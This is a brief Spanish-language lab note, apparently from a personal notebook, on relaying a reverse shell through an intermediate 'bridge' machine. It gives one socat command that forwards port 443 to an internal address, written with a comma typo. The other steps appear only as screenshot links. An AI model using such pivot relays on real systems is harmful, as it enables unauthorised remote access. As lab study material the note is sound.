 Entorno
![[Pasted image 20240709112723.png]]

# Maquina atacante
![[Pasted image 20240709112748.png]]

# Maquina puente
![[Pasted image 20240709112805.png]]

# Maquina victima
![[Pasted image 20240709113127.png]]


# Obtención de la shell 
Una vez tenemos el laboratorio prepara lo primero que hacemos es crear el puente en la maquina intermedia
```
socat tcp-l:443,fork,reuseaddr tcp:192,168,0,14:443
```
![[Pasted image 20240709112910.png]]

Nos ponemos en escucha con nuestra maquina atacante
![[Pasted image 20240709113000.png]]

Y ejecutamos la shell en la maquina victima
![[Pasted image 20240709113032.png]]

Ahora al volver a la maquina atacante ya hemos obtenido la reverse shell
![[Pasted image 20240709113101.png]]